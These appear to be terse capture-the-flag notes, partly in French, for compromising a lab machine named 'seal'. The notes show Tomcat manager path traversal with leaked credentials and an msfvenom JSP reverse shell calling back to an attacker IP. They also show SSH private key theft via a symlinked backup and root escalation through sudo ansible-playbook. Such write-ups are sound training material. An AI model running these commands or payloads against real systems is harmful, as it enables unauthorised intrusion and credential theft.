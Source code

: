 #ip 10.10.10.250 

#user flag : 

https://10.10.10.250/host-manager/text
https://10.10.10.250/conf/tomcat-users.xml 
https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat

user : tomcat
pass : 42MrHBf*z8{Z%

path transvercal tomcat :
http://10.10.10.250:8080

https://10.10.10.250/manager/status/..;/html
https://10.10.10.250/manager/jmxproxy/..;/html/upload?org.apache.catalina.filters.CSRF_NONCE=D9AE2451A740E9F7B10DB346C6B63F63

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=4444 -f war -o rev.war  

#commande reverse shell :

export TERM=xterm
python3 -c "import pty;pty.spawn('/bin/bash')"
ln -s /home/luis/.ssh /opt/backups/uploads/
cd /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
cp /opt/backups/archives/backup-2021-08-02-01:00:32.gz rsa.gz
gzip -kd rsa.gz
tar -xf rsa
cd /dashboard/uploads
python3 -m http.server 9003
http://10.10.10.250:9003
telecharger fichier rsa
sudo ssh -i id_rsa luis@10.10.10.250 
cat user.txt
d640b7d24c41368455c4e15f492427db


#root flag :
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *

fichier run.yml :
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/root/root.txt dest=/opt/backups/playbook copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/

fichier test.yml:
  - name: Check the disk usage of all the file system in the remote servers
    hosts: localhost
    tasks:
      - name: Execute the cat command
        register: dfout
        command: "cat ./root.txt"

      - debug:
          var: dfout.stdout_lines

sudo ansible-playbook test.yml

root flag : 
e972acafe072538a2854924ec65c7b4f"